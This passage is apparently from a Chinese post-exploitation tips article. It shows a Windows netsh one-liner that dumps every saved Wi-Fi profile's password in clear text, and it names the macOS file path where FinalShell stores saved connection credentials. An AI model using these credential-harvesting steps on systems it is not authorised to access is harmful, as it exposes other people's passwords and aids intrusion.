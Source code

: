 [![](assets/1699927162-60e8c7feea06afe78e4dd80aff458cee.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-a4cb2dfcb7d3cc21722e26dcda59ec8491f15b68.png)

## 0x11 获取 wifi 连接密码

`for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear`

## 0x12 获取 FinalShell 连接密码

以 MAC 为例，Finalshell 保存密码的默认路径为：

`/Users/<yourhostname>/Library/FinalShell/conn`

[![](assets/1699927162-8696dbe3dcf9dfbb87fd9c20165cf72b.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-31dca773de8632b2b86afb7c8fa27eef21e1a140.png)

[![](assets/1699927162-360143a7df52731290074b076eca8fba.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-8a0f1fc2d810567b39ede6aada0a64c6ec593e71.png)
